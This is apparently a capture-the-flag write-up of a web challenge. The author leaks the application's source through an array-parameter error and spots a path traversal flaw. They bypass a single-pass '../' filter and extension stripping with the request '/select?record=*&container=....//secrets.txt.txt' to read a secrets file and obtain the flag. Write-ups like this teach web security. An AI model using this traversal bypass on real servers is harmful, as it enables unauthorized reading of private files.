


# How I Parsed your JSON (868 pts)



This challenge is quite interesting because I was wrong at first. When I saw the **SELECT** query, column, and table, I immediately concluded that it was an **SQL Injection** vulnerability

I tried `/select?record=*&container=employees` and it shows all the information as it was actually dumped, but everything is useless

Next, I changed to `/select?record=*&container[]=employees`, add square brackets to turn it into array. This gives me a bunch of errors and also, leak a part of source code

While analyzing this source code, I saw something that make me doubt about my initial conclusion:

```python
File "/app/app.py", line 18, in select

@app.route('/select')

def select():
    container_name = request.args.get('container')
    record_name = request.args.get('record')
    container_name = clean_container_name(container_name)
                     ^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^
    container_path = os.path.join('containers/', container_name)
    try:
        with open(container_path, 'r') as container_file:
            if record_name == '*':

File "/app/app.py", line 36, in clean_container_name

    return render_template('index.html', data=return_data, container=container_name)

def clean_container_name(n):

    n = os.path.splitext(n)[0]
        ^^^^^^^^^^^^^^^^^^^
    n = n.replace('../', '')
    return n
```

I realized that this is actually not an **SQL Injection** but a **Path Traversal** vulnerability

Look carefully, I saw that it was trying to open a file based on the `container` param and maybe if `record` param is `*`? ¯\_(ツ)_/¯

In `clean_container_name` function, it removes the file extension and also filters out `../`

However, it only removes these once, so we can easily bypass by doubling it like `....//`

Combine all of these, I tested `/select?record=*&container=....//secrets.txt.txt` and I got the flag



`Flag: CIT{235da65aa6444e27}`
